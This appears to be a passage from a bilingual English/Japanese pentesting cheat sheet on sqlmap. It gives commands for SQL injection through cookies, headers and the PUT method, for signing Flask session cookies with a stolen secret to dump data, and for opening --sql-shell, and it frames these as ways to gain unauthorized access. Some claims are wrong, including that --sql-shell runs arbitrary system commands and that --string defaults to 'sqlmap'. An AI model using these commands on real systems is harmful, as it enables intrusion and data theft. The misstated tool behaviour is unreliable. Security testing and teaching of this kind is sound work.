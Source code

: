```
sqlmap -u http://example.com --method=POST
```

By testing for injections in headers and other HTTP methods, you can identify and exploit vulnerabilities in these areas, allowing you to gain unauthorized access or perform other malicious activities.

ヘッダーやその他のHTTPメソッドにおけるインジェクションをテストすることで、これらの領域の脆弱性を特定し、不正なアクセスを行ったり、他の悪意のある活動を行ったりすることができます。
```bash
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"

#The injection is located at the '*'
```
### SQLインジェクションが成功した場合に文字列を示す

When SQL injection is successful, the tool will indicate it by displaying a specific string in the output. This string can be customized using the `--string` option followed by the desired string value. By default, the tool uses the string "sqlmap". 

成功したSQLインジェクションは、ツールが出力に特定の文字列を表示することで示されます。この文字列は、`--string`オプションに続けて任意の文字列値を指定することでカスタマイズできます。デフォルトでは、ツールは文字列「sqlmap」を使用します。
```bash
--string="string_showed_when_TRUE"
```
### Eval

**Sqlmap**では、各ペイロードを送信する前に、いくつかのPythonワンライナーでペイロードを処理するために`-e`または`--eval`を使用することができます。これにより、ペイロードを送信する前に、カスタムな方法でペイロードを簡単かつ高速に処理することができます。次の例では、**flask cookie session**は、送信する前にflaskによって既知の秘密で署名されます。
```bash
sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump
```
### シェル

The `shell` command allows you to execute arbitrary commands on the target system. It is useful for gaining remote access and performing various actions on the compromised system.

To use the `shell` command, you need to have a successful SQL injection vulnerability and be able to execute SQL queries. Once you have identified a vulnerable parameter, you can use the `--sql-shell` option to launch an interactive shell.

```bash
$ sqlmap -u "http://example.com/vulnerable.php?id=1" --sql-shell
```

This will open a shell prompt where you can enter commands to be executed on the target system. Keep in mind that the commands will be executed with the privileges of the database user, so you may have limited access to the system.

